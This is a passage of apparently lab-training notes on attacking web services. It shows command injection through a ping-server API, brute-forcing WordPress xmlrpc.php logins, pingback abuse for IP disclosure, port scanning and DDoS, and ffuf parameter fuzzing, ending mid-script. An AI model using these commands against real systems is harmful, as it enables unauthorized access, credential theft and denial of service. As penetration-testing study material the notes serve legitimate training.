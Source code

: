 #### Execute TCP Dump
```Shell
tcpdump -i tun0 icmp
```
#### Execute the following URL
```
http://<TARGET IP>:3003/ping-server.php/ping/<VPN/TUN Adapter IP>/3
```
#### Execute a command that will list files and folders
```Shell
curl -i -s http://10.129.202.133:3003/ping-server.php/system/ls
```
## Attacking WordPress `xmlrpc.php`
#### Password Brute Forcing Attack against `xmlrpc.php`
```Shell
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```
We will receive a `403 faultCode` error if the credentials are not valid.
#### Identifying correct method to call by going through the WordPress code and interacting with `xmlrpc.php`
```
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```
In the example, the method of interest was `pingback.ping`, which allows for XML-RPC pingbacks
#### Attacks associated with pingbacks
- IP Disclosure: An attacker can call the `pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
- Cross-Site Port Attack (XSPA): An attacker can call the `pingback.ping` method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
- DDoS: An attacker can call the `pingback.ping` method on numerous WordPress instances against a single target.

*`xmlrpc.php` must be enabled and the `pingback.ping` method must be available*
## Information Disclosure (w/ a twist of SQLi)
When assessing a web service or API for information disclosure, we should spend considerable time on fuzzing.
#### Parameter fuzzing with the `burp-parameter-names.txt` wordlist from SecLists
```Shell
ffuf -w "/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt" -u "http://$IP:3003/?FUZZ=test_value"
```
#### Parameter fuzz to exclude response sizes that are irrelevant (in this example, `19`)
```Shell
ffuf -w "/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt" -u "http://$IP:3003/?FUZZ=test_value" -v -fs 19
```
#### cURL the parameter
```Shell
curl http://$IP:3003/?id=1
```
#### Python script to brute force the API IDs
```Python
# Import two modules: requests and sys. request allows you to make HTTP requests and sys allows us to parse system arguments
```